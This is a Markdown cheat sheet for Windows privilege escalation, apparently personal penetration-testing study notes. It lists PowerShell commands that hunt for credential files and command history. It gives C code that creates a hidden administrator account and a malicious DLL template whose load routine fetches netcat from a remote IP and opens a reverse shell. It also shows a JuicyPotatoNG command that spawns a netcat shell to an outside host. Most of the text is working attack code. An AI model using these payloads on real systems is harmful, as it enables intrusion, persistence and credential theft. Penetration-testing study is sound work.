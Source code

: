 # Windows Privesc Cheatsheet

Checks to follow:

- [x] Username and hostname
- [x] Group memberships of the current user
- [x] Existing users and groups
- [x] Operating system, version and architecture
- [x] Network information - Installed applications
- [x] Running processes
___

### Information GoldMine Powershell

**User and Groups checks**

* `Get-LocalUser`
* `Get-LocalGroup`
* `Get-LocalGroupMember Administrators`

**Always check the PowerShell history of a user.**

* `Get-History`
* `(Get-PSReadlineOption).HistorySavePath`
* `Get-WinEvent -LogName 'Microsoft-Windows-PowerShell/Operational' -FilterXPath '*[System[(EventID=4104)]]' -MaxEvents 5 | Format-Table TimeCreated, Message -Wrap`

**File Search**

* `Get-ChildItem -Path C:\Users\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue`
* `Get-ChildItem -Path C:\Users\ -Include *.txt,*.ini -File -Recurse -ErrorAction SilentlyContinue`
* `Get-ChildItem -Path C:\Users\ -Include *.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx,*.config,*.ini -File -Recurse -ErrorAction SilentlyContinue`
* `type C:\Users\*\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt`

**Service Binary Hijack**

* `Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}`

```c++
#include <stdlib.h>
int main () {
    int i;
    i = system ("net user dave2 password123! /add");
    i = system ("net localgroup administrators dave2 /add");
    return 0;
}
```

And compile it: `x86_64-w64-mingw32-gcc adduser.c -o adduser.exe`

___

### DLL Hijack

**Standard Search Order for DLLs**

1. The directory from which the application loaded.
2. The system directory.
3. The 16-bit system directory.
4. The Windows directory. 
5. The current directory.
6. The directories that are listed in the PATH environment variable.

[Hacktricks DLL Hijack](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/dll-hijacking)

**Cross Compile DLL**

```bash
x86_64-w64-mingw32-gcc myDLL.cpp --shared -o myDLL.dll
```

**Malicious DLL Template**

Catch a reverse shell

```c++
#include <stdlib.h>
#include <windows.h>
BOOL APIENTRY DllMain(
HANDLE hModule,// Handle to DLL module
DWORD ul_reason_for_call,// Reason for calling function
LPVOID lpReserved ) // Reserved
{
    switch ( ul_reason_for_call )
    {
        case DLL_PROCESS_ATTACH: // A process is loading the DLL.
            int i;
            i = system("copy \\\\192.168.119.162\\tmp\\nc.exe");
            i = system("nc.exe 192.168.119.162 1337 -e cmd");
            break;
        case DLL_THREAD_ATTACH: // A process is creating a new thread.
        break;
        case DLL_THREAD_DETACH: // A thread exits normally.
        break;
        case DLL_PROCESS_DETACH: // A process unloads the DLL.
        break;
    }
    return TRUE;
}
```

Attempt to create a new admin user

```c++
#include <stdlib.h>
#include <windows.h>
BOOL APIENTRY DllMain(
HANDLE hModule,// Handle to DLL module
DWORD ul_reason_for_call,// Reason for calling function
LPVOID lpReserved ) // Reserved
{
    switch ( ul_reason_for_call )
    {
        case DLL_PROCESS_ATTACH: // A process is loading the DLL.
            int i;
            i = system ("net user dave2 password123! /add");
  	        i = system ("net localgroup administrators dave2 /add");
            break;
        case DLL_THREAD_ATTACH: // A process is creating a new thread.
        break;
        case DLL_THREAD_DETACH: // A thread exits normally.
        break;
        case DLL_PROCESS_DETACH: // A process unloads the DLL.
        break;
    }
    return TRUE;
}
```

### Privesc with SeImpersonatePrivilege

[Hacktricks Abusing Tokens](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/privilege-escalation-abusing-tokens#seimpersonateprivilege-3.1.1)

```cmd
C:\Users\Public> .\JuicyPotatoNG.exe -p C:\Windows\System32\cmd.exe -a "/c C:\Users\Public\nc.exe -e cmd.exe 192.168.45.189 80" -t *
```

```cmd
C:\Users\Public> .\PrintSpoofer.exe -i -c cmd.exe
```

### Unquoted Service Paths

**Enumerate Running and Stopped Services**

`Get-CimInstance -ClassName win32_service | Select Name,State,PathName`

**Identify spaces in service's paths**

`wmic service get name,pathname | findstr /i /v "C:\Windows\\" | findstr /i /v """`

### Scheduled Tasks

Three pieces of information are vital to obtain from a scheduled task to identify possible privilege escalation vectors:

* As which user account (principal) does this task get executed?
* What triggers are specified for the task?
* What actions are executed when one or more of these triggers are met?

`schtasks /query /fo LIST /v`